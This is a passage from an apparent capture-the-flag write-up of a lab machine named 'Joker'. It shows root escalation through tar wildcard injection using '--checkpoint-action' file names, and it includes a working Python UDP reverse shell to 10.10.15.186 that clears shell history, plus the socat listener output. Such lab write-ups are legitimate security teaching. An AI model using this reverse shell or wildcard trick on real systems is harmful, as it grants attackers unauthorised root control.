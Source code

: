 ```bash
-rw-r--r-- 1 alekos alekos   655 May 16 03:21 .profile
drwxr-xr-x 2 alekos alekos  4096 May 20 16:38 .ssh
-r--r----- 1 root   alekos    33 May 19 17:58 user.txt
```

Wait about 5 minutes and then look at our folder.

```bash
alekos@joker:~/backup$ tar -xvf dev-1506106201.tar.gz 
backup.sh
root.txt
alekos@joker:~/backup$ ls -la
total 196
drwxrwx--- 2 root   alekos 12288 Sep 22 21:50 .
drwxr-xr-x 7 alekos alekos  4096 Sep 22 21:46 ..
-rwx------ 1 alekos alekos   205 May 18 19:25 backup.sh
-rw-r----- 1 root   alekos 40960 Sep 22 21:25 dev-1506104701.tar.gz
-rw-r----- 1 root   alekos 40960 Sep 22 21:30 dev-1506105001.tar.gz
-rw-r----- 1 root   alekos 40960 Sep 22 21:35 dev-1506105301.tar.gz
-rw-r----- 1 root   alekos 40960 Sep 22 21:40 dev-1506105601.tar.gz
-rw-r----- 1 root   alekos 10240 Sep 22 21:50 dev-1506106201.tar.gz
-r-------- 1 alekos alekos    33 May 19 17:57 root.txt
```
And we see the script has given us the contents of /root with us as the owner of the files.  However, we have the flag but not root access itself.  We could probably dump the shadow file and crack the password, but there is another way.

Full Access
------------

The method used here is very effectively described in this link https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt .  I won't go over it again as this link does a much better job of describing the attack than I can.

Place a file called shell.py in the development folder, and use the same udp reverse shell we created earlier.  Since no forward slashes are allowed in file names we have to place shell here and hope that the bash script executes from this folder (In this case we're lucky that it does).

```python
#!/usr/bin/python
import subprocess
subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

And we now want to create our checkpoint actions within the folder.

```bash
alekos@joker:~/development$ touch -- --checkpoint=1
alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python shell.py'
```

Wait five minutes with our listener up and:

```bash
root@kali:/tmp# socat file:`tty`,echo=0,raw udp-listen:1234
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
application.py				  data	       shell.py   views.py
--checkpoint=1				  file	       static
--checkpoint-action=exec=python shell.py  __init__.py  templates
createssh.py				  models.py    utils.py
# 
```

We're now root! 



